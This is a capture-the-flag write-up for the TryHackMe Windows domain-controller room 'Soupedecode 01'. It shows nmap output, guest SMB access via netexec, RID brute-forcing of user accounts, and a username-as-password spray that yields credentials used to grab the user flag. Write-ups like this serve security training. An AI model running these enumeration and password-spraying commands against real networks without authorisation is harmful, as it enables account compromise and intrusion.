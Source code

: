 ```yaml
---
description: Test your enumeration skills on this boot-to-root machine. - by josemlwdf
icon: windows
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Soupedecode 01

***

Platform: [TryHackMe](https://tryhackme.com/room/soupedecode01)

Difficulty: Easy

Machine Type: Windows

***

### Initial enumeration

Nmap scan results:

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ sudo nmap -Pn -A -p- --min-rate 4000 10.201.30.86 -oN nmap.full
```

```
Nmap scan report for 10.201.17.189
Host is up (0.35s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-25 08:07:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-25T08:08:54+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC01.SOUPEDECODE.LOCAL
| Not valid before: 2025-06-17T21:35:42
|_Not valid after:  2025-12-17T21:35:42
| rdp-ntlm-info: 
|   Target_Name: SOUPEDECODE
|   NetBIOS_Domain_Name: SOUPEDECODE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: SOUPEDECODE.LOCAL
|   DNS_Computer_Name: DC01.SOUPEDECODE.LOCAL
|   Product_Version: 10.0.20348
|_  System_Time: 2025-08-25T08:08:16+00:00
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49710/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-08-25T08:08:19
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

```

Looking at the open ports, it's clear we are dealing with some type of windows domain controller machine.

First of all add DNS domain name to our /etc/hosts file.

Domain Name - SOUPEDECODE.LOCAL

Computer Name - DC01.SOUPEDECODE.LOCAL

### Initial Access as guest

As SMB is open on the target machine, I tried various method to list SMB shares, but only login as a built-in guest user with an empty password worked via netexec.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.74.77 -u 'guest' -p '' --shares
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Results revealed IPC$ share is readable with these credentials, so I tried to connect to it via smbclient, but there was nothing present on that share.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ smbclient '//10.201.74.77/IPC$' -U 'guest'
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Next I tried to brute force user's rid via netexec.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.74.77 -u 'guest' -p '' --rid-brute > users-messed-list.txt 
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

As we got too many users from rid brute-force, now we can simply extract only username from this messed up list for further enumeration.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ cut -d'\' -f2 users-messed-list.txt | cut -d' ' -f1 > formatted-users-list.txt
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

***

### Access as ybob317 and User flag

I began by enumerating SMB shares on the target domain using the `nxc smb` tool with a list of usernames (reused as passwords). Instead of brute-forcing, we only tested exact username-password pairs and continued the enumeration even after discovering valid credentials. During this process, I identified valid credentials for **ybob317**.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.94.156 -u formatted-users-list.txt -p formatted-users-list.txt --no-brute --continue-on-success
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Then, I tried to enumerate shares with those valid credentials and found that user 'ybob317' had read access to 'Users' share.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.57.152 -u 'ybob317' -p 'REDACTED' --shares
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Connected to 'Users' share via smbclient.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ smbclient '//10.201.57.152/Users' -U 'ybob317'
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

All the directories were inaccessible except 'ybob317' and there I got the Desktop directory and then in Desktop I got user flag.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Downloaded it on my own kali machine and got the user flag.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

***
